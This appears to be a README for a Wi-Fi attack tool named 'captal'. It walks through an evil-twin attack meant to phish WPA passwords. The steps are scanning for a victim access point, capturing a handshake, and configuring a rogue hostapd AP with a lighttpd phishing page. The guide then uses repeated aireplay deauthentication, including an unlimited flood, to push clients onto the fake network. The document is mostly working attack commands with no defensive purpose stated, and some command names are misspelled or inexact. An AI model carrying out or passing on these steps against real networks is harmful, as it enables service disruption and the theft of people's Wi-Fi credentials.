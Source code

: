 # Evil Twin AP and WPA Password Phishing

### Handshake Snooping

##### Explore a network

```sh
sudo airodump -M wlan0
```
Save bssid and channel of the victim-AP.

##### Explore the victim-AP

```sh
sudo airodump -M --bssid $BSSID --channel $CHANNEL -w output wlan0
```

##### Snoop the handshake

a) Deauthenticate specific station:

```sh
sudo aireplay -0 5 -a $BSSID -c $STATION
```

b) Deauthenticate all stations:

```sh
sudo aireplay -0 5 -a $BSSID
```

Since the `output-01.cap` has the handshake, we can configure the captal now!

---

### Configure captal

##### Edit `/etc/captal/chkwpa.conf`

```sh
CAP_FILE=/path/to/your/output-*.cap
SSID=your_victim_ssid
```

##### Edit `/etc/captal/hostapd.conf`

```sh
interface=your_roqueAP_interface
ssid=your_victimAP_ssid
channel=your_victimAP_channel
```

##### Edit `/etc/captal/lighttpd.conf`

Uncomment one of the `server.document-root` variable.

### Start captail

##### Run

```sh
sudo /etc/rc.d/captal start
```

##### Logs

```sh
sudo tail -f /var/log/messages /var/log/lighttpd.log
```

### Deauthenticate the clients from Original AP

They need to join us.

a) Deauthenticate specific station:

```sh
sudo aireplay -0 0 -a $BSSID -c $STATION
```

b) Deauthenticate all stations:

```sh
sudo aireplay -0 0 -a $BSSID
```
